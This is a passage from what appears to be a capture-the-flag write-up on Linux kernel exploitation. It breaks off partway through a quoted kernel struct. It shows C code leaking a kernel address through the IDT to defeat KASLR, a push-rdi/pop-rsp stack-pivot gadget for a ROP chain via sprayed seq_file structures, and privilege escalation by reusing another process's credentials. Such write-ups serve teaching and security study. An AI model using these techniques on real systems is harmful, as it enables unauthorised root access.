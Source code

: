 So my script was now updated to do this:
```c
  // IDT (0xfffffe0000000000) + 4
  size_t flag_addr = 0xfffffe0000000004;
...
...
  char flag_buf[0x100] = {0};
  lseek(fd, 1, SEEK_SET);
  read(fd, (void *)flag_buf, 0x100);

  // -0x8e00 to zero-out the last 2 bytes
  uint64_t kaslr = *((uint64_t*)flag_buf)-0x8e00;
```

### ROP chain
Since we had already sprayed a bunch of `struct seq_file` structures, we could just update them in order to place correct `seq_operations` pointers within them.

When any of the `ops` functions are called, the first argument is always a pointer to the `struct seq_file`.
So, if we could find a gadget that can move the value of `rdi` into `rsp`, we could pivot the stack into a ROP chain.

And surprisingly, there was this gadget in the kernel:
<pre>
<span style="color:cyan">(remote) gef➤</span> <span style="color:lightgreen">x/6i 0xffffffff814b1a35</span>
   <span style="color:yellow">0xffffffff814b1a35</span>:	<span style="color:lightblue;font-weight:bold">push</span>   <span style="color:white">rdi</span>
   <span style="color:yellow">0xffffffff814b1a36</span>:	<span style="color:lightblue;font-weight:bold">mov</span>    <span style="color:white">ebx</span>,<span style="color:orange">0x415bfffa</span>
   <span style="color:yellow">0xffffffff814b1a3b</span>:	<span style="color:lightblue;font-weight:bold">pop</span>    <span style="color:white">rsp</span>
   <span style="color:yellow">0xffffffff814b1a3c</span>:	<span style="color:lightblue;font-weight:bold">cdqe</span>
   <span style="color:yellow">0xffffffff814b1a3e</span>:	<span style="color:lightblue;font-weight:bold">pop</span>    <span style="color:white">rbp</span>
   <span style="color:yellow">0xffffffff814b1a3f</span>:	<span style="color:lightblue;font-weight:bold">ret</span>
</pre>


Which does exactly that.


### Privlege Escalation
The first thing I remember from my kernel exploitation reading was that the `commit_creds(prepare_kernel_cred(0))` was the way to go for privilege escalation.
However, it turns out that we could just re-use a creds structure from an existing process.

The `struct task_struct` has two pointers to `struct cred` structures followed by a `comm` buffer.
```c
    /* Objective and real subjective task credentials (COW): */
    const struct cred __rcu		*real_cred;

    /* Effective (overridable) subjective task credentials (COW): */
    const struct cred __rcu		*cred;

    /*
     * executable name, excluding path.
     *
     * - normally initialized begin_new_exec()
     * - set it with set_task_comm()
     *   - strscpy_pad() to ensure it is always NUL-terminated and
     *     zero-padded
     *   - task_lock() to ensure the operation is atomic and the name is
```